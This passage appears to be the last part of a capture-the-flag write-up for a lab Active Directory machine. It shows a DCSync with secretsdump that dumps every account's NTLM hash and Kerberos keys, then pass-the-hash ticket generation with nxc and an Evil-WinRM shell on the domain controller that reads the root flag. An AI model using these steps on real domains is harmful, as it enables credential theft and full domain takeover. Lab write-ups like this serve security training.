SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\dc01$ from ccache
```
It works now i can perform a DCSync to dump the administrators hash

```python
secretsdump.py -k -no-pass -dc-ip "10.129.231.205" @dc01.vintage.htb
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:468c7497513f8243b59980f2240a10de:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:be3d376d906753c7373b15ac460724d8:::
M.Rossi:1111:aad3b435b51404eeaad3b435b51404ee:8e5fc7685b7ae019a516c2515bbd310d:::
R.Verdi:1112:aad3b435b51404eeaad3b435b51404ee:42232fb11274c292ed84dcbcc200db57:::
L.Bianchi:1113:aad3b435b51404eeaad3b435b51404ee:de9f0e05b3eaa440b2842b8fe3449545:::
G.Viola:1114:aad3b435b51404eeaad3b435b51404ee:1d1c5d252941e889d2f3afdd7e0b53bf:::
C.Neri:1115:aad3b435b51404eeaad3b435b51404ee:cc5156663cd522d5fa1931f6684af639:::
P.Rosa:1116:aad3b435b51404eeaad3b435b51404ee:8c241d5fe65f801b408c96776b38fba2:::
svc_sql:1134:aad3b435b51404eeaad3b435b51404ee:cc5156663cd522d5fa1931f6684af639:::
svc_ldap:1135:aad3b435b51404eeaad3b435b51404ee:458fd9b330df2eff17c42198627169aa:::
svc_ark:1136:aad3b435b51404eeaad3b435b51404ee:1d1c5d252941e889d2f3afdd7e0b53bf:::
C.Neri_adm:1140:aad3b435b51404eeaad3b435b51404ee:91c4418311c6e34bd2e9a3bda5e96594:::
L.Bianchi_adm:1141:aad3b435b51404eeaad3b435b51404ee:6b751449807e0d73065b0423b64687f0:::
DC01$:1002:aad3b435b51404eeaad3b435b51404ee:2dc5282ca43835331648e7e0bd41f2d5:::
gMSA01$:1107:aad3b435b51404eeaad3b435b51404ee:0851299c01b944d01099fc977eaa6c67:::
FS01$:1108:aad3b435b51404eeaad3b435b51404ee:44a59c02ec44a90366ad1d0f8a781274:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:5f22c4cf44bc5277d90b8e281b9ba3735636bd95a72f3870ae3de93513ce63c5
Administrator:aes128-cts-hmac-sha1-96:c119630313138df8cd2e98b5e2d018f7
Administrator:des-cbc-md5:c4d5072368c27fba
krbtgt:aes256-cts-hmac-sha1-96:8d969dafdd00d594adfc782f13ababebbada96751ec4096bce85e122912ce1f0
krbtgt:aes128-cts-hmac-sha1-96:3c7375304a46526c00b9a7c341699bc0
krbtgt:des-cbc-md5:e923e308752658df
M.Rossi:aes256-cts-hmac-sha1-96:14d4ea3f6cd908d23889e816cd8afa85aa6f398091aa1ab0d5cd1710e48637e6
M.Rossi:aes128-cts-hmac-sha1-96:3f974cd6254cb7808040db9e57f7e8b4
M.Rossi:des-cbc-md5:7f2c7c982cd64361
R.Verdi:aes256-cts-hmac-sha1-96:c3e84a0d7b3234160e092f168ae2a19366465d0a4eab1e38065e79b99582ea31
R.Verdi:aes128-cts-hmac-sha1-96:d146fa335a9a7d2199f0dd969c0603fb
R.Verdi:des-cbc-md5:34464a58618f8938
L.Bianchi:aes256-cts-hmac-sha1-96:abcbbd86203a64f177288ed73737db05718cead35edebd26740147bd73e9cfed
L.Bianchi:aes128-cts-hmac-sha1-96:92067d46b54cdb11b4e9a7e650beb122
L.Bianchi:des-cbc-md5:01f2d667a19bce25
G.Viola:aes256-cts-hmac-sha1-96:f3b3398a6cae16ec640018a13a1e70fc38929cfe4f930e03b1c6f1081901844a
G.Viola:aes128-cts-hmac-sha1-96:367a8af99390ebd9f05067ea4da6a73b
G.Viola:des-cbc-md5:7f19b9cde5dce367
C.Neri:aes256-cts-hmac-sha1-96:c8b4d30ca7a9541bdbeeba0079f3a9383b127c8abf938de10d33d3d7c3b0fd06
C.Neri:aes128-cts-hmac-sha1-96:0f922f4956476de10f59561106aba118
C.Neri:des-cbc-md5:9da708a462b9732f
P.Rosa:aes256-cts-hmac-sha1-96:f9c16db419c9d4cb6ec6242484a522f55fc891d2ff943fc70c156a1fab1ebdb1
P.Rosa:aes128-cts-hmac-sha1-96:1cdedaa6c2d42fe2771f8f3f1a1e250a
P.Rosa:des-cbc-md5:a423fe64579dae73
svc_sql:aes256-cts-hmac-sha1-96:3bc255d2549199bbed7d8e670f63ee395cf3429b8080e8067eeea0b6fc9941ae
svc_sql:aes128-cts-hmac-sha1-96:bf4c77d9591294b218b8280c7235c684
svc_sql:des-cbc-md5:2ff4022a68a7834a
svc_ldap:aes256-cts-hmac-sha1-96:d5cb431d39efdda93b6dbcf9ce2dfeffb27bd15d60ebf0d21cd55daac4a374f2
svc_ldap:aes128-cts-hmac-sha1-96:cfc747dd455186dba6a67a2a340236ad
svc_ldap:des-cbc-md5:e3c48675a4671c04
svc_ark:aes256-cts-hmac-sha1-96:820c3471b64d94598ca48223f4a2ebc2491c0842a84fe964a07e4ee29f63d181
svc_ark:aes128-cts-hmac-sha1-96:55aec332255b6da8c1344357457ee717
svc_ark:des-cbc-md5:6e2c9b15bcec6e25
C.Neri_adm:aes256-cts-hmac-sha1-96:96072929a1b054f5616e3e0d0edb6abf426b4a471cce18809b65559598d722ff
C.Neri_adm:aes128-cts-hmac-sha1-96:ed3b9d69e24d84af130bdc133e517af0
C.Neri_adm:des-cbc-md5:5d6e9dd675042fa7
L.Bianchi_adm:aes256-cts-hmac-sha1-96:529fa80540d759052c6beb161d5982435a37811b3ad2a338e81b75797c11959e
L.Bianchi_adm:aes128-cts-hmac-sha1-96:7e4599a7f84c2868e20141bdc8608bd7
L.Bianchi_adm:des-cbc-md5:8fa746971a98fedf
DC01$:aes256-cts-hmac-sha1-96:f8ceb2e0ea58bf929e6473df75802ec8efcca13135edb999fcad20430dc06d4b
DC01$:aes128-cts-hmac-sha1-96:a8f037cb02f93e9b779a84441be1606a
DC01$:des-cbc-md5:c4f15ef8c4f43134
gMSA01$:aes256-cts-hmac-sha1-96:f4d64527410f21236212dfd8967e227d8da02eca96608d82c0b9d44b20196fc8
gMSA01$:aes128-cts-hmac-sha1-96:5c8b89785e70073c70ae512053349d86
gMSA01$:des-cbc-md5:ae314cb68cec2f67
FS01$:aes256-cts-hmac-sha1-96:d57d94936002c8725eab5488773cf2bae32328e1ba7ffcfa15b81d4efab4bb02
FS01$:aes128-cts-hmac-sha1-96:ddf2a2dcc7a6080ea3aafbdf277f4958
FS01$:des-cbc-md5:dafb3738389e205b
[*] Cleaning up...
```

### Auth as the Domain admin
```python
nxc smb dc01.vintage.htb -u L.Bianchi_adm -H '6b751449807e0d73065b0423b64687f0' -k --generate-tgt administraotr
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\L.Bianchi_adm:6b751449807e0d73065b0423b64687f0 (Pwn3d!)
SMB         dc01.vintage.htb 445    dc01             [+] TGT saved to: administraotr.ccache
SMB         dc01.vintage.htb 445    dc01             [+] Run the following command to use the TGT: export KRB5CCNAME=administraotr.ccache
```
Ive now generated a TGT for the domain admin since the `Administrator` account did not work

```python
KRB5CCNAME=administraotr.ccache evil-winrm -i dc01.vintage.htb -r vintage.htb 
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\L.Bianchi_adm\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\L.Bianchi_adm\Desktop> dir
*Evil-WinRM* PS C:\Users\L.Bianchi_adm\Desktop> cd ../../
*Evil-WinRM* PS C:\Users> cd Administrator
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
||6d7e6955fc95bc42aa5fd1ea7678d862||
*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 
```
Domain admin!
